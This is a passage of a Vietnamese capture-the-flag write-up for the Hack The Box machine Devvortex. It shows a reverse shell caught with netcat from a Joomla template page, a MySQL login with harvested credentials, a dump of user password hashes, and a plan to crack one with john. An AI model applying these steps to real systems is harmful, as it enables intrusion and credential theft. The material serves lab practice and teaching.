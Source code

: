 `http://dev.devvortex.htb/templates/cassiopeia/error.php`

```python
┌──(root㉿kali)-[/home/kali/HTB/Devvortex]
└─# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.77] from (UNKNOWN) [10.10.11.242] 60634
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ 
```

### User Flag

Quay lại các thông tin ban đầu, tôi có được một thông tin đăng nhập dựa trên mysql. Vậy thì tôi sẽ thử đăng nhập vào mysql trên shell này.

```python
www-data@devvortex:~/dev.devvortex.htb/templates/cassiopeia$ mysql -h localhost -u lewis -p                   
<emplates/cassiopeia$ mysql -h localhost -u lewis -p         
Enter password:
....
```python
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | ---------------------------------------------------/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Vậy là tôi tìm được password hash của logan ở đây. Sao chép hash này về máy và sử dụng **john** để crack nó
